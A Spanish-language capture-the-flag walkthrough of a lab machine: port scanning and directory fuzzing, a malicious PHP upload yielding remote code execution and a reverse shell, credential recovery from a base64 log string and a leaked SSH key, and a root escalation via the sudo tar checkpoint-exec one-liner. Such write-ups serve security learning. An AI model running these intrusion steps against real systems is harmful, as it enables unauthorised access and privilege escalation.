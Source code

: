## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 09:42 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
|_  256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.53 seconds
```

comienzo chequeando el servicio web

![image](https://github.com/user-attachments/assets/a49fc61f-ba0c-481f-bf88-90fd0644778a)


realizo fuzzing web

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 10
```
```bash
                                                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       65l      221w     3010c http://172.17.0.2/index.html
200      GET      158l      327w     2870c http://172.17.0.2/styles.css
200      GET       44l      152w     1749c http://172.17.0.2/script.js
200      GET       27l       54w      826c http://172.17.0.2/contact.html
200      GET       39l       81w     1327c http://172.17.0.2/team.html
200      GET       29l       67w      931c http://172.17.0.2/blog.html
200      GET      796l     4529w   371895c http://172.17.0.2/logo.png
301      GET        9l       28w      310c http://172.17.0.2/uploads => http://172.17.0.2/uploads/
200      GET     6186l    35127w  2810752c http://172.17.0.2/banner.png
200      GET       65l      221w     3010c http://172.17.0.2/
[####################] - 67s  2491836/2491836 0s      found:10      errors:0      
[####################] - 67s  2491548/2491548 37308/s http://172.17.0.2/ 
[####################] - 0s   2491548/2491548 1245774000/s http://172.17.0.2/uploads/ => Directory listing (add --scan-dir-listings to scan)
```
veo que existe el directorio `/uploads` por lo que imagino que de alguna forma podre cargar archivos solo que no veo el panel de carga, si chequeo el codigo fuente consigo el panel de
carga

![image](https://github.com/user-attachments/assets/a0f159d4-159e-4081-9f4d-69fc001aabfe)

ya tengo localizado el panel de carga asi que accedo `http://172.17.0.2/m4ch1n3_upload.php`

![image](https://github.com/user-attachments/assets/d3a0fba2-acaa-4b84-b71c-9a02042e0f9c)

aqui me cargo un archivo php malicioso, sube sin problema alguna y obtengo una `rce`

![image](https://github.com/user-attachments/assets/04fa554f-aed6-41b8-9462-6b2064a91343)

me envio una `revershell` y obtengo acceso al sistema

## Escalada de Privilegios

### www-data

tratamiento de la tty

```bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```
exiten los siguientes usuarios en el sistema: `charlie`, `bob` & `alice`; busco archivos en el sistema que pertenezcan a alguno de estos usuarios pero sin resultado, en cambio al buscar
por `www-data` me consigo con un archivo de `log`

![image](https://github.com/user-attachments/assets/3d977a3b-91f1-4e70-b50e-60fbd2cc14c1)

decodifico la cadena que parece ser `base64`

```ruby
echo 'YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3' |base64 -d
```

obtengo credenciales para el user `alice`

### alice

consigo la `flag` 

![image](https://github.com/user-attachments/assets/860e89cd-d10f-4c8a-bfcd-d974a5e58a3b)

consigo un reporte de incidentes que tiene buena innformacion

```bash
=== INCIDENT REPORT ===
Archivo generado automaticamente por el sistema de auditoria interna de CyberLand Labs.

Fecha: 2023-11-22  
Auditor Responsable: Alice Carter  
Asunto: Configuracion Erronea de Claves SSH  

=== DESCRIPCION ===  
Durante una reciente auditoria de seguridad en nuestro servidor principal, descubrimos un grave error de configuracion en el sistema de autenticacion SSH. El problema parece originarse en un script automatizado utilizado para generar claves RSA para los usuarios del sistema.

En lugar de crear claves unicas para cada usuario, el script genero una unica clave `id_rsa` y la replico en todos los directorios de usuario en el servidor. Ademas, la clave esta protegida por una passphrase que, aunque tecnicamente existe, no ofrece ningun nivel real de seguridad.

=== HALLAZGO ADICIONAL ===  
Durante el analisis, encontramos que la passphrase de la clave privada del usuario `bob` se almaceno accidentalmente en un archivo temporal en el sistema. El archivo no ha sido eliminado, lo que significa que la passphrase esta ahora expuesta.

**Passphrase del Usuario `bob`:** `cyb3r_s3curity`

=== DETALLES DE LA CONFIGURACION ===  
Clave Privada: id_rsa  
Passphrase: cyb3r_s3curity  
Ubicacion: Copiada en todos los directorios `/home/<usuario>/.ssh/`

=== CONSECUENCIAS ===  
1. **Perdida de Privacidad**: Todos los usuarios comparten la misma clave, lo que significa que cualquiera puede autenticarse como cualquier otro usuario si obtiene acceso a la clave.  

=== POSIBLES SOLUCIONES ===  
- Implementar un sistema centralizado de gestion de claves.  
- Forzar a los usuarios a cambiar sus claves regularmente.  
- Actualizar las politicas internas para prohibir el uso de scripts inseguros en la configuracion de credenciales.  

=== NOTA FINAL ===  
Este incidente pone de manifiesto la importancia de revisar las configuraciones criticas en sistemas sensibles. Es crucial que todo el equipo de IT se mantenga alerta y que se implementen controles mas estrictos para evitar errores similares en el futuro.

--- FIN DEL INFORME ---
```

aqui el objetivo pasa a ser enviar a mi maquina atacante la clave `id_rsa` para autenticarme en el sistema como cualquier `user`

![image](https://github.com/user-attachments/assets/b4a3cdbe-1244-4d4f-8507-acc358afcb33)

le asigno los permisos necesarios a la llave para que pueda funcionar

```bash
chmod og-rwx id_rsa
```
procedo acceder al user `bob` via ssh

```
ssh -i id_rsa bob@172.17.2
```

la `passphrase` se encuentra en el reporte de `incidencias`

### bob



```
sudo -l

Matching Defaults entries for bob on e3bff6e1986b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on e3bff6e1986b:
    (ALL) NOPASSWD: /bin/tar
```

escalamos a `root`

```ruby
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://github.com/user-attachments/assets/e0899ef6-8e11-47f3-81cc-66f20b650541)

### root





















